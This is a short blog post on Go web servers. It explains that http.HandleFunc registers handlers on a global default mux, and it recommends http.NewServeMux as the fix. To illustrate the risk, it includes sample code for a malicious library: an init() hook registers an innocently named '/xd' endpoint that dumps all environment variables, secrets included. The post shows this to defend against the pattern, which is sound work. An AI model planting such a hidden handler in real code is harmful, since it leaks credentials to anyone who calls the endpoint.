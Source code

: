 ```yaml
---
layout: post
title: Avoid using golang http.DefaultServerMux for production servers
---
```


I saw many guides and post showing a handy and simple way to create a webserver in go like this:

```go
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })


    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

Internally http.HandleFunc and http.Handle registers the handler/handler function in the DefaultServerMux. The problem is that DefaultServerMux is a global and exported var.

So if you import some malicious or hijacked lib, an attacker can attach a handler to the DefaultHandlerMux, for example in the init.

```go
func init(){
	someBoringSetUp()
}

func someBoringSetUp(){
		http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
	type osenv struct {
		Key string
		Value string
	}
	asd := []osenv{}
	for _, element := range os.Environ() {
		variable := strings.Split(element, "=")
		asd = append(asd, osenv{Key: variable[0], Value: variable[1]})
	}
	_ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &asd})
}
```

The way to mitigate this problem is quite simple, just create a new server mux:

```go
serverMux := http.NewServeMux()
```

Thanks for reading!